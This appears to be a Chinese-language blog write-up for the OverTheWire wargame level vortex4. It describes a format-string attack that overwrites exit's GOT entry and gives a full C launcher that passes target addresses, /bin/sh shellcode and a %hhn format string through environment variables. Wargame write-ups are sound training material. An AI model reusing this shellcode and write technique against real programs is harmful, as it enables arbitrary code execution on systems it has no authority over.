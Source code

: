 ```yaml
---
title: vortex4
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

format string。由于还是exit，所以与上题一样，修改got.

由于argc必须为0，所以要另外写一个c程序，用exec。我们把argv设为{NULL}, 要修改的地址放到envp[0], shellcode放到envp[1], format string放到envp[2]。这样printf就会打印envp[2]

还是用寻找A的方式，大概确定了format string的内容大概是第98个参数。exit在plt的地址是0x0804a008，经过一番调整，确定了各个环境变量的长度，然后确定SHELLCODE的地址和format的具体形式。

代码如下

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env1="\x08\xa0\x04\x08\x09\xa0\x04\x08\x0a\xa0\x04\x08\x0b\xa0\x04\x08";
    char *env2="SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *env3="%155x%97$hhn%64x%98$hhn%32x%99$hhn%100$hhn";
    char *argv[] = {NULL};
    char *envp[] = {env1, env2, env3, NULL};
    execve("/vortex/vortex4", argv, envp);
}
{% endhighlight %}

